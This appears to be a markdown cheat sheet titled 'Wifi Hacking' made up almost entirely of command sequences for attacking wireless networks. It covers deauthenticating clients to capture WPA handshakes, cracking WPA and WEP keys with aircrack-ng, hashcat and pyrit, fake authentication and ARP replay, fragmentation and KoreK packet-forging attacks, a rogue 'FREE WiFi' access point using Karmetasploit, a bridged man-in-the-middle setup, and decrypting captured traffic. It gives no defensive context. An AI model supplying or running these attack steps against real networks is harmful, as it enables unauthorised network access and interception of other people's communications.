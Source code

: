## Wifi Hacking

**Set interface down**
```
sudo ip link set wlan0 down
```
**Set monitor mode**
```
iwconfig wlan0 mode monitor
```
**Turn up interface**
```
ip link set wlan0 up
```

**Use airmon-ng to put int into monitor mode**
```
airmon-ng start wlan0
```

**listen for all nearby beacon frames to get target BSSID and**
```
airodump-ng wlan0 --band abg
```

**Set 5 GHz channel**
```  
iwconfig wlan0 channel 149
```

**Start listening for the handshake**
```
airodump-ng -c 149 --bssid P4:E4:E4:92:60:71 -w cap01.cap wlan0
```

**Deauth a connected client to force a handshake**
```
aireplay-ng -D -0 2 -a 9C:5C:8E:C9:AB:C0 -c P4:E4:E4:92:60:71 wlan0
```

**Convert cap to hccapx**
```
aircrack-ng -J file.cap capture.hccap
```

**Crack with hashcat**
```
hashcat.exe -m 2500 capture.hccapx rockyou.txt
```

**Setting TX POWER**
```
iw reg set BO
iwconfig wlan1 txpower 25
```

**Cracking WPA**
```
airmon-ng start wlan0
airodump-ng -c (channel) –bssid (AP MAC) -w (filename) wlan0mon
aireplay-ng -0 1 -a (AP MAC) -c (VIC CLIENT) wlan0mon {disassociation attack}
aircrack-ng -0 -w (wordlist path) (caputure filename)
```

**Cracking WEP with Connected Clients**
```
airmon-ng start wlan0 ( channel)
airodump-ng -c (channel) –bssid (AP MAC) -w (filename) wlan0mon
aireplay-ng -1 0 -e (ESSID) -a (AP MAC) -h (OUR MAC) wlan0mon {fake authentication}
aireplay-ng -0 1 -a (AP MAC) -c (VIC CLIENT) wlan0mon {disassociation attack}
aireplay-ng -3 -b (AP MAC) -h (OUR MAC) wlan0mon {ARP replay attack}
```

**Cracking WEP via a Client**
```
airmon-ng start wlan0 (channel)
airodump-ng -c (channel) –bssid (AP MAC) -w (filename) wlan0mon
aireplay-ng -1 0 -e (ESSID) -a (AP MAC) -h (OUR MAC) wlan0mon {fake authentication}
aireplay-ng -2 -b (AP MAC) -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 wlan0mon
aireplay-ng -2 -r (replay cap file) wlan0mon {inject using cap file}
aircrack-ng -0 -z(PTW) -n 64(64bit) filename.cap
```

**ARP amplification**
```
airmon-ng start wlan0 ( channel)
airodump-ng -c (channel) –bssid (AP MAC) -w (filename) wlan0mon
aireplay-ng -1 500 -q 8 -a (AP MAC) wlan0mon
areplay-ng -5 -b (AP MAC) -h (OUR MAC) wlan0mon
packetforge-ng -0 -a (AP MAC) -h (OUR MAC) -k 255.255.255.255 -l 255.255.255.255 -y (FRAGMENT.xor) -w (filename.cap)
tcpdump -n -vvv -e -s0 -r (replay_dec.#####.cap)
packetforge-ng -0 -a (AP MAC) -h (OUR MAC) -k (destination IP) -l (source IP) -y (FRAGMENT.xor) -w (filename.cap)
aireplay-ng -2 -r (filename.cap) wlan0mon
```

**Cracking WEP /w shared key AUTH**
```
airmon-ng start wlan0 ( channel)
airodump-ng -c (channel) –bssid (AP MAC) -w (filename) wlan0mon
~this will error out~aireplay-ng -1 0 -e (ESSID) -a (AP MAC) -h (OUR MAC) wlan0mon {fake authentication}
aireplay-ng -0 1 -a (AP MAC) -c (VIC CLIENT) wlan0mon {deauthentication attack}
aireplay-ng -1 60 -e (ESSID) -y (sharedkeyfile) -a (AP MAC) -h (OUR MAC) wlan0mon {fake authentication /w PRGA xor file}
aireplay-ng -3 -b (AP MAC) -h (OUR MAC) wlan0mon {ARP replay attack}
aireplay-ng -0 1 -a (AP MAC) -c (VIC CLIENT) wlan0mon {deauthentication attack}
aircrack-ng -0 -z(PTW) -n 64(64bit) filename.cap
```

**Cracking a Clientless WEP (FRAG AND KOREK)**
> **FRAG**
```
airmon-ng start wlan0 (channel)
airodump-ng -c (channel) –bssid (AP MAC) -w (filename) wlan0mon
aireplay-ng -1 60 -e (ESSID) -a (AP MAC) -h (OUR MAC) wlan0mon {fake authentication}
~aireplay-ng -5 (frag attack) -b (AP MAC) -h (OUR MAC) wlan0mon
packetforge-ng -0 -a (APMAC) -h (OUR MAC) -l 255.255.255.255 -k 255.255.255.255 -y (fragment filename) -w filename.cap
tcpdump -n -vvv -e -s0 -r filename.cap {TEST}
aireplay-ng -2 -r filename.cap wlan0mon
```

> **KOREK**
```
~aireplay-ng -4 -b (AP MAC) -h (OUR MAC) wlan0mon
tcpdump -s 0 -s -e -r replayfilename.cap
packetforge-ng -0 -a (APMAC) -h (OUR MAC) -l 255.255.255.255(source IP) -k 255.255.255.255(dest IP) -y (fragmentfilename xor) -w filename.cap
aireplay-ng -2 -r filename.cap wlan0mon
aircrack-ng -0 filename.cap
```

**Karmetasploit**
```
airbase-ng -c (channel) -P -C 60 -e “FREE WiFi” -v wlan0mon
ifconfig at0 up 10.0.0.1/24
mkdir -p /var/run/dhcpd
chown -R dhcpd:dhcpd /var/run/dhcpd
touch /var/lib/dhcp3/dhcpd.leases
cat dhcpd.conf
touch /tmp/dhcp.log
chown dhcpd:dhcpd /tmp/dhcp.log
dhcpd3 -f -cf /tmp/dhcpd.conf -pf /var/run/dhcpd/pid -lf /tmp/dhcp.log at0
msfconsole -r /root/karma.rc
```

**Bridge CTRL man in the middle SETUP**
```
airebase-ng -c 3 -e “FREE WiFi” wlan0mon
brctl addbr hacker(interface name)
brctl addif hacker eth0
brctl addif hacker at0
ifconfig eth0 0.0.0.0 up
ifconfig at0 0.0.0.0 up
ifconfig hacker 192.168.1.8 up
ifconfig hacker
echo 1 > /proc/sys/net/ipv4/ip_forward
```

**pyrit DB attacks**
```
pyrit eval
pyrit -i (wordlist) import_passwords
pyrit -e (essid) create_essid
pyrit batch
pyrit batch -r (capturefile) -b(AP MAC) attack_db
pyrit strip
pyrit -r (capturefile) -o (capturefile output) strip
pyrit dictionary attack
pyrit -r (capturefile) -i (/pathtowordlist) -b (AP MAC) attack_passthrough
```

**airgraph-ng**
```
airgraph-ng -i filename.csv -g CAPR -o outputfilename.png
eog outputfilename.png
airgraph-ng -i filename.csv -g CPG -o outputfilename.png
eog outputfilename.png
```

**airdecap-ng**
```
airdecap-ng -b (vic ap) outputfilename.cap
wireshark outputfilename.cap
airdecap-ng -w (WEP KEY) (capturefile.cap)
wireshark capturefile-DEC.cap
airdecap-ng -e (ESSID VIC) -p (WPA PASSWORD) (capturefile.cap)
wireshark capturefile-dec.cap
```